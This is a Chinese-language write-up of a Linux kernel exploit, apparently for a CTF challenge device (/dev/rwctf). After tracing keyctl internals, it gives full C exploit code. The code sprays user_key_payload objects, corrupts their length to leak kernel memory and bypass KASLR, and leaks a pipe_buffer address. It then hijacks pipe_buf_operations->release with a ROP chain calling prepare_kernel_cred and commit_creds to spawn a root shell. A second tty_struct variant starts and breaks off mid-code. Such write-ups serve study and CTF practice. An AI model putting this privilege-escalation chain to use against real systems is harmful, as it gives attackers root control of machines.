1. **系统调用入口**：`__x64_sys_keyctl()` 接收系统调用请求
2. **命令处理**：`keyctl_read_key()` 处理 `KEYCTL_READ` 命令
3. **内核缓冲区分配**：`kmalloc(buflen, GFP_KERNEL)` 根据用户请求长度分配内核临时缓冲区
4. **密钥获取**：`__keyctl_read_key()` 调用密钥读取的核心函数
5. **并发控制**：`down_read(&key->sem)` 获取密钥的读信号量，确保并发安全
6. **密钥验证**：`key_validate(key)` 验证密钥状态是否有效
7. **类型分发**：`key->type->read()` 根据密钥类型调用相应的读取方法
8. **用户密钥读取**：`user_read()` 处理用户类型密钥的读取
9. **负载获取**：`user_key_payload_locked(key)` 在持有信号量的情况下安全获取负载指针
10. **长度计算**：比较用户请求长度和实际数据长度，取较小值
11. **内核内存拷贝**：`memcpy(key_data, upayload->data, buflen)` 将密钥数据复制到内核缓冲区
12. **信号量释放**：`up_read(&key->sem)` 释放读信号量
13. **调用栈返回**：函数逐层返回到 `keyctl_read_key()`
14. **用户空间复制**：`copy_to_user(user_buffer, key_data, ret)` 将内核缓冲区数据复制回用户空间
15. **缓冲区释放**：`kfree(key_data)` 释放内核缓冲区
16. **返回结果**：返回实际读取的字节数到用户空间

**关键特性**：

- 双重拷贝机制：密钥数据从内核密钥结构 → 内核缓冲区 → 用户空间
- 内核缓冲区大小由用户请求的 `buflen` 决定
- 实际读取长度由密钥数据的实际长度 (`upayload->datalen`) 和请求长度 (`buflen`) 共同决定
- 并发安全：通过读信号量保护密钥访问
- 内存安全：通过边界检查和 `copy_to_user` 确保内存安全访问

### 3-5. 密钥撤销 (key_revoke)

`key_revoke` 函数通过 `keyctl` 系统调用撤销密钥：



**调用链详解**：

1. **系统调用入口**：`keyctl` 系统调用进入 `__x64_sys_keyctl`，命令码为 `KEYCTL_REVOKE`
2. **命令处理**：`keyctl_revoke_key` 处理撤销命令
3. **获取密钥信号量**：通过 `down_write(&key->sem)` 获取密钥的写信号量，确保互斥访问
4. **密钥验证**：`key_validate` 检查密钥状态是否有效
5. **设置撤销状态**：将密钥的到期时间设置为0，标记为已撤销
6. **类型特定的撤销处理**：调用 `key->type->revoke` 方法
7. **用户密钥的撤销处理**：对于user类型密钥，调用 `user_revoke()` 函数
8. **注册RCU回调**：通过 `call_rcu(&zap->rcu, user_free_payload_rcu)` 注册延迟释放回调
9. **安排垃圾回收**：`key_schedule_gc_links()` 安排与密钥相关联的密钥环的垃圾回收
10. **释放信号量**：通过 `up_write(&key->sem)` 释放写信号量
11. **延迟释放**：RCU宽限期过后，调用 `user_free_payload_rcu()` 回调函数
12. **安全释放payload**：通过 `kfree_sensitive(upayload)` 安全释放密钥负载数据
13. **内存释放**：最终调用 `kfree()` 释放内存

**关键特性**：

- 互斥访问：通过信号量确保密钥撤销期间的互斥访问
- 异步释放：payload通过RCU机制延迟释放，避免在关键路径上阻塞
- 密钥环清理：通过`key_schedule_gc_links()`安排相关联密钥环的清理
- 安全释放：使用`kfree_sensitive()`在释放前清零敏感数据
- 状态标记：将密钥到期时间设置为0，标记为已撤销状态

### 3-6. 密钥删除 (key_unlink)

`key_unlink` 函数通过 `keyctl` 系统调用删除密钥：



**调用链详解**：

1. **系统调用入口**：`keyctl` 系统调用进入 `__x64_sys_keyctl`
2. **命令分发**：`KEYCTL_UNLINK` 命令调用 `keyctl_keyring_unlink`
3. **密钥移除**：`key_unlink` 从密钥环移除密钥
4. **加锁和准备**：
    - `__key_unlink_lock`：获取密钥环的锁
    - `__key_unlink_begin`：准备移除操作
5. **执行移除**：
    - `assoc_array_delete`：从密钥环的关联数组中移除密钥
    - `key_put`：减少密钥的引用计数
6. **引用计数处理**：
    - 引用计数 > 0：仅移除引用，不释放内存
    - 引用计数 = 0：触发密钥完全释放流程
7. **垃圾回收调度**：
    - `key_schedule_gc`：安排密钥的垃圾回收
    - `schedule_work`：调度工作队列执行回收
8. **清理工作**：
    - `key_gc_worker`：工作队列中的回收任务
    - `key->type->destroy`：调用密钥类型的销毁方法
9. **payload清理**：
    - 对于user类型密钥，调用 `user_destroy`
    - `kfree_sensitive`：安全释放payload内存
10. **清理和释放**：`__key_unlink_end` 完成移除操作并释放锁

**关键特性**：

- 异步释放：payload清理是异步的，通过RCU机制和工作队列延迟执行
- 引用计数：依赖引用计数管理内存释放
- 类型特定的销毁：每种密钥类型实现自己的 `destroy` 方法来清理特定资源
- 安全释放：使用 `kfree_sensitive` 在释放前清零敏感数据

### 3-7. 子系统特征总结

通过对密钥管理子系统的分析，识别出以下关键特征：

1. **精确内存分配**：`key_alloc` 可根据参数精确控制分配大小，定位特定 `kmalloc` 缓存
2. **信赖边界控制**：`key_read` 完全信赖 `datalen` 字段控制读取边界
3. **异步释放机制**：`key_revoke` 通过 RCU 回调实现延迟释放
4. **高频操作支持**：密钥接口支持高频调用，便于实施堆喷射
5. **引用计数管理**：`key_unlink` 依赖引用计数决定内存释放时机

这些子系统特性为构造特定的内存交互状态提供了基础条件，与模块的内存操作能力结合时，可能产生复杂的内存状态交互。

## 4. 实战演练

exploit核心代码如下：

```c
/* kmalloc-192 has only 21 objects on a slub, we don't need to spray to many */
#define KEY_SPRAY_NUM 21

// pwndbg> p/x sizeof(struct pipe_inode_info)
// $1 = 0xa8
#define PIPE_INODE_INFO_SZ 0xa8
#define PIPE_DEF_BUFFERS 16
// pwndbg> p/x sizeof(struct pipe_buffer)
// $2 = 0x28
// pwndbg> p/x 16 * 0x28
// $3 = 0x280
#define PIPE_BUFFER_SZ 16 * 0x28

#define USER_FREE_PAYLOAD_RCU 0xffffffff813efd40
#define PREPARE_KERNEL_CRED 0xffffffff81099460
#define COMMIT_CREDS 0xffffffff81098f30
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81e00ed0

#define PUSH_RSI_POP_RSP_RET 0xffffffff81b1ba01
#define POP_RDI_RET 0xffffffff810bb338
#define MOV_RDI_RAX_REP_MOVSQ_RDI_RSI_RET 0xffffffff81ce41bb
#define POP_R13_POP_R12_POP_RBP_POP_RBX_RET 0xffffffff81054162
/**
 * Challenge interactor
 **/
int dev_fd;

struct chunk_t {
  size_t idx;
  size_t size;
  void *buf;
};

void alloc(size_t idx, size_t size, void *buf) {
  struct chunk_t chunk = {
      .idx = idx,
      .size = size,
      .buf = buf,
  };

  ioctl(dev_fd, 0xdeadbeef, &chunk);
}

void del(size_t idx) {
  struct chunk_t chunk = {
      .idx = idx,
  };

  ioctl(dev_fd, 0xc0decafe, &chunk);
}

int main() {
  size_t *rop_chain, pipe_buffer_addr;
  int key_id[KEY_SPRAY_NUM], victim_key_idx = -1, pipe_key_id;
  char desciption[0x100];
  int pipe_fd[2];
  int retval;
  int step = 0;

  /* fundamental works */
  bind_core(0);
  save_status();

  rop_chain = (size_t *)malloc(sizeof(size_t) * 0x4000);
  log.success("rop_chain addr: %p", rop_chain);
  dev_fd = open("/dev/rwctf", O_RDONLY);
  if (dev_fd < 0) {
    log.error("Failed to open /dev/rwctf!");
    exit(-1);
  }

  /* construct UAF on user_key_payload */
  log.info("construct UAF obj and spray keys...");
  alloc(0, PIPE_INODE_INFO_SZ, rop_chain);
  del(0);

  for (int i = 0; i < KEY_SPRAY_NUM; i++) {
    snprintf(desciption, 0x100, "%s%d", "BinRacer", i);
    // pwndbg> p/x sizeof(struct user_key_payload)
    // $4 = 0x18
    key_id[i] = key_alloc(desciption, rop_chain, PIPE_INODE_INFO_SZ - 0x18);
    if (key_id[i] < 0) {
      log.error("failed to alloc %d key!", i);
      log.error("call add_key() failed!");
      exit(-1);
    }
  }

  del(0);

  /* corrupt user_key_payload's header */
  log.info("corrupting user_key_payload...");

  rop_chain[0] = 0;
  rop_chain[1] = 0;
  rop_chain[2] = 0x2000;

  for (int i = 0; i < (KEY_SPRAY_NUM * 2); i++) {
    alloc(0, PIPE_INODE_INFO_SZ, rop_chain);
  }

  /* check for oob-read and leak kernel base */
  log.info("try to make an OOB-read...");

  for (int i = 0; i < KEY_SPRAY_NUM; i++) {
    if (key_read(key_id[i], rop_chain, 0x4000) > PIPE_INODE_INFO_SZ) {
      log.success("found victim key at idx: %d", i);
      victim_key_idx = i;
    } else {
      key_revoke(key_id[i]);
    }
  }

  if (victim_key_idx == -1) {
    log.error("corrupt user_key_payload failed!");
    exit(-1);
  }

  kernel_offset = -1;
  for (int i = 0; i < 0x2000 / 8; i++) {
    if (rop_chain[i] > kernel_base &&
        (rop_chain[i] & 0xfff) == (USER_FREE_PAYLOAD_RCU & 0xfff)) {
      kernel_offset = rop_chain[i] - USER_FREE_PAYLOAD_RCU;
      kernel_base += kernel_offset;
      break;
    }
  }

  if (kernel_offset == -1) {
    log.error("leak kernel addr failed!");
    exit(-1);
  }

  log.success("Kernel base: 0x%lx", kernel_base);
  log.success("Kernel offset: 0x%lx", kernel_offset);

  /* construct UAF on pipe_inode_buffer to leak pipe_buffer's addr */
  log.info("construct UAF on pipe_inode_info...");

  /* 0->1->..., the 1 will be the payload object */
  alloc(0, PIPE_INODE_INFO_SZ, rop_chain);
  alloc(1, PIPE_INODE_INFO_SZ, rop_chain);
  del(1);
  del(0);

  pipe_key_id = key_alloc("BinRacerPipe", rop_chain, PIPE_INODE_INFO_SZ - 0x18);
  del(1);

  /* this object is for the pipe buffer */
  alloc(0, PIPE_BUFFER_SZ, rop_chain);
  del(0);

  // chunk[1].buf = pipe_inode_info
  // chunk[0].buf = pipe_buffer
  pipe(pipe_fd);

  /* note that the user_key_payload->datalen is 0xFFFF now */
  retval = key_read(pipe_key_id, rop_chain, 0xffff);

  // （(struct pipe_inode_info*)rop_chain->tmp_page = pipe_inode_info->bufs
  //  tmp_page offset 16 * 8 = 0x80
  pipe_buffer_addr = rop_chain[16]; /* pipe_inode_info->bufs */
  log.success("Got pipe_buffer: 0x%lx", pipe_buffer_addr);

  /* construct fake pipe_buf_operations */
  memset(rop_chain, 'A', sizeof(rop_chain));

  step = 0;
  rop_chain[step++] = kernel_offset + POP_R13_POP_R12_POP_RBP_POP_RBX_RET;
  rop_chain[step++] = *(size_t *)"BinRacer";
  rop_chain[step++] = pipe_buffer_addr + 0x18; /* pipe_buffer->ops */
  /* pipe_buf_operations->confirm */
  rop_chain[step++] = *(size_t *)"BinRacer";
  /* pipe_buf_operations->release */
  rop_chain[step++] = kernel_offset + PUSH_RSI_POP_RSP_RET;
  rop_chain[step++] = kernel_offset + POP_RDI_RET;
  rop_chain[step++] = 0;
  rop_chain[step++] = kernel_offset + PREPARE_KERNEL_CRED;
  rop_chain[step++] = kernel_offset + MOV_RDI_RAX_REP_MOVSQ_RDI_RSI_RET;
  rop_chain[step++] = kernel_offset + COMMIT_CREDS;
  rop_chain[step++] =
      kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x3d;
  rop_chain[step++] = *(size_t *)"BinRacer";
  rop_chain[step++] = *(size_t *)"BinRacer";
  rop_chain[step++] = (size_t)get_root_shell;
  rop_chain[step++] = user_cs;
  rop_chain[step++] = user_rflags;
  rop_chain[step++] = user_sp + 8; /* system() wants it : ( */
  rop_chain[step++] = user_ss;

  del(0);
  alloc(0, PIPE_BUFFER_SZ, rop_chain);

  /* trigger pipe_buf_operations->release */
  log.info("trigerring pipe_buf_operations->release()...");
  close(pipe_fd[1]);
  close(pipe_fd[0]);
  return 0;
}
```

整个过程分为四个主要阶段：初始化准备、内核基址泄露、管道地址泄露与ROP链构造、触发执行流。以下将分步骤解析每个阶段的具体实现逻辑，并在关键步骤中深入分析内核中相关系统调用的执行路径。

### 4-1. 初始化准备

在开始内存操作前，需要进行必要的环境初始化：

1. **环境绑定与状态保存**：将进程绑定到特定CPU核心，以减少多核环境下的竞争条件，提高堆布局的确定性。同时保存用户态寄存器状态（CS、RFLAGS、RSP、SS等），为后续从内核态返回用户态的安全切换做准备。

2. **资源准备**：分配大小为0x4000字节的缓冲区`rop_chain`，用于存储ROP链数据和读取的内核数据。打开目标设备文件`/dev/rwctf`，获取与内核模块交互的文件描述符。缓冲区大小的选择考虑到需要容纳完整的ROP链和从内核读取的数据。

3. **关键参数定义**：定义了一系列常量，包括：
    - 堆喷射密钥数量`KEY_SPRAY_NUM = 21`（对应`kmalloc-192`缓存每个slab的槽位数，确保能够填满一个slab）
    - 内核数据结构大小：`PIPE_INODE_INFO_SZ = 0xa8`（`pipe_inode_info`结构大小），`PIPE_BUFFER_SZ = 0x280`（16个`pipe_buffer`结构）
    - 静态内核函数地址偏移（基于特定内核版本，用于后续计算实际地址）

### 4-2. 内核基址泄露

此阶段目标是通过构造特定的内存状态，修改`user_key_payload`结构并利用`key_read`实现越界读取，从而获取内核函数指针并计算基址。其操作序列与状态转移如下图所示：



**详细操作解析**：

1. **目标对象准备**：通过`alloc(0, 0xa8, rop_chain)`在`kmalloc-192`缓存分配目标对象，随即调用`del(0)`释放，使`chunk[0].buf`成为悬垂指针。此步骤创建了一个可控的释放后状态。

2. **堆喷射填充缓存**：利用密钥管理子系统的`key_alloc`接口，循环调用21次，每次分配负载大小为0x90字节（0xa8 - 0x18）的密钥。选择21次是为了填满`kmalloc-192`缓存的一个完整slab，确保步骤1中释放的对象有极高概率被某个新分配的`user_key_payload`占用。

3. **二次释放目标**：再次调用`del(0)`，释放`chunk[0].buf`指向的内存。由于步骤2的堆喷射，此时该指针有高概率指向一个有效的`user_key_payload`结构，从而构造了悬垂引用。此时密钥子系统仍持有指向已释放内存的合法引用。

4. **修改元数据**：设置`rop_chain[0]=0`、`rop_chain[1]=0`、`rop_chain[2]=0x2000`，然后通过42次`alloc(0,0xa8,rop_chain)`调用尝试重新分配目标内存并覆盖其内容。0x2000的选择足够大以覆盖后续内核指针，但又不会过大导致读取失败。42次尝试（2倍于堆喷射次数）确保高概率成功覆盖目标。

5. **检测被修改密钥**：遍历所有密钥描述符，对每个密钥调用`key_read(key_id[i], rop_chain, 0x4000)`。正常密钥返回≤0xa8字节，而被修改`datalen`的密钥会返回远大于0xa8字节的数据，从而被识别为"受害者密钥"。读取长度0x4000确保能获取足够的后续内存数据。

6. **搜索泄露指针**：在从"受害者密钥"读取的0x2000字节数据中，遍历前0x400个8字节元素，寻找高4位与已知内核基址匹配且低12位与`USER_FREE_PAYLOAD_RCU`一致的地址。利用页对齐特性（低12位相同）可靠识别目标函数指针。

7. **计算内核基址**：找到匹配指针后，计算`kernel_offset = 获取地址 - USER_FREE_PAYLOAD_RCU`，然后`kernel_base += kernel_offset`，得到精确内核镜像基址，完全绕过KASLR保护。

### 4-3. 管道地址泄露与ROP链构造

获得内核基址后，此阶段目标是通过操控管道子系统获取管道缓冲区地址，并构造执行流引导链。操作流程如下图所示：



**详细操作解析**：

1. **准备管道内存布局**：分配两个0xa8字节的对象，然后依次释放，在`kmalloc-192`缓存中制造连续空闲槽。这种布局增加了`pipe_inode_info`结构分配到这些特定槽位的概率，为后续操作奠定基础。

2. **分配并释放密钥**：通过`key_alloc`分配一个密钥，使其有高概率占据步骤1释放的某个空闲槽。然后立即通过`del(1)`释放该密钥，进一步精确化内存布局。此操作利用了密钥子系统的分配特性来"标记"特定内存区域。

3. **准备管道缓冲区**：分配一个0x280字节的对象（对应16个`pipe_buffer`结构），然后立即释放，在相应缓存中为管道缓冲区数组准备内存。这确保后续管道创建时，`pipe_buffer`数组有高概率从此区域分配。

4. **触发管道分配**：调用`pipe(pipe_fd)`创建新管道。此系统调用触发内核执行管道创建路径：

    ```mermaid
    graph TB
        A[用户空间调用 pipe] --> B[系统调用入口 __NR_pipe2]
        B --> C[__x64_sys_pipe2]
        C --> D[__se_sys_pipe2]
        D --> E[__do_sys_pipe2]
        E --> F[do_pipe2]
        F --> G[__do_pipe_flags]
        G --> H[create_pipe_files]
        H --> I[get_pipe_inode]
        I --> J[alloc_pipe_info]
        J --> K[分配pipe_inode_info结构]
        J --> L[分配pipe_buffer数组]
        K --> M["kzalloc(sizeof(struct pipe_inode_info), GFP_KERNEL_ACCOUNT)"]
        L --> N["kcalloc(pipe_bufs, sizeof(struct pipe_buffer), GFP_KERNEL_ACCOUNT)"]

        style M fill:#e1f5fe
        style N fill:#e1f5fe
    ```

    由于前三步的布局，`pipe_inode_info`结构有高概率从步骤1释放的内存槽中分配，而`pipe_buffer`数组则有高概率从步骤3准备的内存区域分配。这使得`chunk[1].buf`和`chunk[0].buf`可能分别指向新分配的`pipe_inode_info`和`pipe_buffer`结构。

5. **获取管道缓冲区地址**：通过之前分配的`pipe_key_id`密钥读取内存，从读取的数据中解析`pipe_inode_info->bufs`字段（位于`rop_chain[16]`，对应偏移0x80），得到`pipe_buffer`数组地址。此地址是后续精确构造伪造结构的关键。

6. **构造ROP链**：
    - 初始化`rop_chain`缓冲区，填充已知模式便于调试
    - 按顺序布置ROP指令地址：栈翻转指令（`PUSH_RSI_POP_RSP_RET`，用于劫持栈指针）→ 寄存器控制指令（`POP_RDI_RET`等）→ `prepare_kernel_cred(0)` → `commit_creds` → 返回用户态序列
    - 设置伪造的`pipe_buf_operations`结构：`ops`指针指向`pipe_buffer_addr+0x18`（确保指向可控区域），`release`函数指针指向栈翻转指令地址
    - 包含完整的用户态返回信息：CS、RFLAGS、RSP、SS寄存器值，确保安全返回

### 4-4. 触发执行流

完成所有准备后，最后阶段触发预设的执行流。此阶段涉及内核中管道释放的完整路径：



**详细操作解析**：

1. **重新分配并写入构造结构**：调用`del(0)`释放当前`chunk[0].buf`，然后通过`alloc(0,0x280,rop_chain)`重新分配`pipe_buffer`大小的内存，并将构造好的ROP链数据写入该内存区域。这使得之前分配的`pipe_buffer`结构被可控的ROP链数据覆盖，特别是修改了`pipe_buffer->ops`指针。

2. **触发管道释放**：关闭管道的两个文件描述符：`close(pipe_fd[1])`和`close(pipe_fd[0])`。这会触发内核的管道销毁流程，沿着以下路径执行：

    ```mermaid
    graph TB
        A[用户空间调用 close] --> B[系统调用返回路径]
        B --> C[syscall_exit_to_user_mode]
        C --> D[__syscall_exit_to_user_mode_work]
        D --> E[exit_to_user_mode_prepare]
        E --> F[exit_to_user_mode_loop]
        F --> G[resume_user_mode_work]
        G --> H[task_work_run]
        H --> I[__fput]
        I --> J[pipe_release]
        J --> K[put_pipe_info]
        K --> L[free_pipe_info]
        L --> M[pipe_buf_release]
        M --> N["ops->release(pipe, buf)"]

        style I fill:#fff3e0
        style J fill:#f3e5f5
        style M fill:#fce4ec
        style N fill:#c8e6c9
    ```

    在`pipe_buf_release()`函数中，内核会调用`pipe_buffer->ops->release(pipe, buf)`来释放缓冲区资源。由于之前已经修改了`pipe_buffer`中的`ops`指针和`release`函数指针，控制流将被劫持到此前预设的ROP链。

3. **执行流引导**：
    - 内核调用`pipe_buffer->ops->release()`函数
    - 由于`ops`指针指向构造的结构，`release`指针指向栈翻转指令
    - 控制流转至ROP链起始地址，栈指针被切换到可控区域
    - ROP链依次执行：设置RDI寄存器为0，调用`prepare_kernel_cred(0)`获取凭证，传递给`commit_creds`完成权限变更
    - 通过精心构造的返回序列（包含`SWAPGS`和`IRET`相关指令）安全返回用户态
    - 最终执行预设的用户空间函数`get_root_shell()`，完成整个流程

### 4-5. 技术要点总结

整个实现过程体现了以下技术要点：

1. **精确的时序控制**：通过`alloc`/`del`的特定序列，精确控制内核对象的分配与释放时序，创造所需的内存状态。每个操作步骤都经过精心设计，确保前一步为后一步创造条件。

2. **概率性对抗随机化**：利用堆喷射（21+次分配）在统计学上主导SLUB缓存状态，将随机化挑战转化为高概率成功操作。通过大量重复分配提高目标内存状态的出现概率。

3. **跨子系统状态利用**：利用密钥子系统与模块对同一内存状态认知的差异，通过`key_read`实现越界读取。这种"一处内存，两种解释"的状态冲突是信息泄露的关键。

4. **复杂对象生命周期干涉**：通过内存布局操控，使管道子系统将结构分配到预设区域，然后修改其内部函数指针。这需要对内核对象分配和释放机制有深入理解。

5. **完整的控制流引导链**：构造从内核态到用户态的完整ROP链，实现安全的状态切换和权限变更。ROP链的设计考虑了寄存器控制、函数调用约定和返回安全。

6. **深入的系统调用路径理解**：对管道创建（`pipe()`）和释放（`close()`）的完整内核执行路径有深入理解，能够准确预测和控制特定执行点的内存状态。特别是对`pipe_buf_release()`到`ops->release()`调用链的利用。

整个过程展示了在现代内核防护机制下，通过精心设计的操作序列，可以实现从信息获取到执行流引导的完整技术链，体现了对内核内存管理和子系统交互机制的深入理解。特别是对管道子系统分配和释放路径的精确掌握，为成功构造特定的内存状态和执行流转移提供了关键基础。

## 5. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 6. 进阶分析：tty_struct结构利用

exploit核心代码如下：

```c
#define KEY_SPRAY_COUNT 24
#define TTY_STRUCT_SIZE 0x2b8

#define USER_FREE_PAYLOAD_RCU 0xffffffff813efd40
#define COMMIT_CREDS 0xffffffff81098f30
#define INIT_CRED 0xffffffff828507c0
#define WORK_FOR_CPU_FN 0xffffffff8108af50

static int g_dev_fd;

struct chunk_info {
    size_t idx;
    size_t size;
    void *buf;
};

static void alloc_chunk(size_t idx, size_t size, void *buf)
{
    struct chunk_info chunk = {
        .idx = idx,
        .size = size,
        .buf = buf,
    };
    ioctl(g_dev_fd, 0xdeadbeef, &chunk);
}

static void free_chunk(size_t idx)
{
    struct chunk_info chunk = {
        .idx = idx,
    };
    ioctl(g_dev_fd, 0xc0decafe, &chunk);
}

int main(void)
{
    size_t *payload;
    int key_ids[KEY_SPRAY_COUNT];
    int victim_key_idx = -1;
    int tty_struct_key_id;
    char description[0x100];
    int ret;
    size_t fake_tty[TTY_STRUCT_SIZE / 8] = {0};
    size_t fake_tty_addr = 0;
    int tty_fd;
    int i;

    /* Basic environment setup */
    bind_core(0);
    save_status();

    payload = (size_t *)malloc(sizeof(size_t) * 0x4000);
    if (!payload) {
        log.error("Failed to allocate payload buffer");
        exit(-1);
    }
    log.success("Payload buffer allocated at: 0x%lx", (size_t)payload);

    g_dev_fd = open("/dev/rwctf", O_RDONLY);
    if (g_dev_fd < 0) {
        log.error("Failed to open device /dev/rwctf");
        exit(-1);
    }
    log.info("Device opened successfully, fd: %d", g_dev_fd);

    /* Phase 1: Construct UAF on user_key_payload and spray keys */
    log.info("Phase 1: Constructing UAF on user_key_payload and spraying keys");
    alloc_chunk(0, TTY_STRUCT_SIZE, payload);
    free_chunk(0);
    log.debug("Initial UAF object created and freed");

    for (i = 0; i < KEY_SPRAY_COUNT; i++) {
        snprintf(description, sizeof(description), "BinRacer%d", i);
        key_ids[i] = key_alloc(description, payload, TTY_STRUCT_SIZE - 0x18);
        if (key_ids[i] < 0) {
            log.error("Failed to allocate key %d", i);
            exit(-1);
        }
    }
    log.info("%d keys sprayed successfully", KEY_SPRAY_COUNT);

    free_chunk(0);
    log.debug("Original chunk freed, creating dangling pointer");

    /* Phase 2: Corrupt user_key_payload header */
    log.info("Phase 2: Corrupting user_key_payload header");
    payload[0] = 0;
    payload[1] = 0;
    payload[2] = 0x2000;

    for (i = 0; i < (KEY_SPRAY_COUNT * 2); i++) {
        alloc_chunk(0, TTY_STRUCT_SIZE, payload);
    }
    log.debug("Heap spraying completed");

    /* Phase 3: OOB read to leak kernel address */
    log.info("Phase 3: Attempting OOB read to leak kernel address");
    for (i = 0; i < KEY_SPRAY_COUNT; i++) {
        if (key_read(key_ids[i], payload, 0x2000) > TTY_STRUCT_SIZE) {
            log.success("Found victim key at index: %d", i);
            victim_key_idx = i;
            break;
        } else {
            key_revoke(key_ids[i]);
        }
    }

    if (victim_key_idx == -1) {
        log.error("Failed to corrupt user_key_payload");
        exit(-1);
    }

    kernel_offset = -1;
    for (i = 0; i < 0x2000 / 8; i++) {
        if (payload[i] > kernel_base &&
            (payload[i] & 0xfff) == (USER_FREE_PAYLOAD_RCU & 0xfff)) {
            kernel_offset = payload[i] - USER_FREE_PAYLOAD_RCU;
            kernel_base += kernel_offset;
            break;
        }
    }

    if (kernel_offset == -1) {
        log.error("Failed to leak kernel address");
        exit(-1);
    }

    log.success("Kernel base address: 0x%lx", kernel_base);
    log.success("Kernel offset: 0x%lx", kernel_offset);

    /* Phase 4: Construct UAF on tty_struct */
    log.info("Phase 4: Constructing UAF on tty_struct");
    alloc_chunk(0, TTY_STRUCT_SIZE, payload);
    alloc_chunk(1, TTY_STRUCT_SIZE, payload);
    free_chunk(1);
    free_chunk(0);
    log.debug("Created two UAF objects and freed them");

    tty_struct_key_id = key_alloc("BinRacerTTY", payload, TTY_STRUCT_SIZE - 0x18);
    if (tty_struct_key_id < 0) {
        log.error("Failed to allocate tty struct key");
        exit(-1);
    }
    log.debug("Tty struct key allocated: 0x%lx", tty_struct_key_id);

    free_chunk(1);
    log.debug("Freed chunk 1 to create dangling pointer");

    /* Phase 5: Open tty device and read original tty data */
    log.info("Phase 5: Opening tty device");
